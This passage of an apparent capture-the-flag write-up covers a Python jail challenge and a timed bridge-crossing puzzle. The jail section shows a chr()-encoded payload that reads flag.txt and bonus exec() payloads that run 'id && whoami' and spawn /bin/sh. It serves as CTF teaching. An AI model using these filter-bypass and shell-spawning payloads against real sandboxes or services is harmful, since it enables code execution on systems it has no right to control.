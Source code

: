 We'll use this script to build us a payload to open the flag.txt in the current directory

Convert to CHR() format: with open('flag.txt') as f: print(f.read()) chr(119)+chr(105)+chr(116)+chr(104)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(32)+chr(97)+chr(115)+chr(32)+chr(102)+chr(58)+chr(32)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(102)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)

![Image](/images/2023-3-24-cyberapoc-23/Pasted-image-20230322222355.png)

### Bonus: Achieving Command Execution

exec(import os;os.system("id && whoami && hostname"))  - Command Execution
![Image](/images/2023-3-24-cyberapoc-23/Pasted-image-20230322222729.png)

### Bonus: Spawning a Shell

exec(import pty;pty.spawn("/bin/sh"))  - Invoke a shell
![Image](/images/2023-3-24-cyberapoc-23/Pasted-image-20230322222921.png)

<hr>

# [Misc] The Chasm's Crossing Conundrum - Hard

The Chasm's Crossing Conundrum was a hard level miscellaneous challenge. The challenge provided the following instructions:

```
[*] The path ahead is treacherous.
[*] You have to find a viable strategy to get everyone across safely.
[*] The bridge can hold a maximum of two persons.
[*] The chasm lurks on either side of the bridge waiting for those who think they can get across in total darkness.
[*] If two persons get across, one must come back with the flashlight. 
[*] The flashlight has energy only for a limited amount of time.   
[*] The time required for two persons to cross, is dictated by the slower.
[*] The answer must be given in crossing and returning pairs. For example, [1,2],[2],... . This means that persons 1 and 2 cross and 2 gets back with the flashlight so others can cross.  
```

![Image](/images/2023-3-24-cyberapoc-23/Pasted-image-20230322223609.png)


The strategy is relatively simple to follow - whoever is the fastest needs to be designated as the runner who helps each person cross the chasm. Since the time required for both people to cross is dictated by the slower person, the only way to save on time is to have the fastest person running back each time to burn the least amount of time before helping the next person cross.

This challenge could be done manually but the difficulty lies in the short time limit that the user has to provide input. To overcome this - we can build a quick client app to start the challenge, take in the dynamically generated values, and then build and send the answer back based on our strategy.
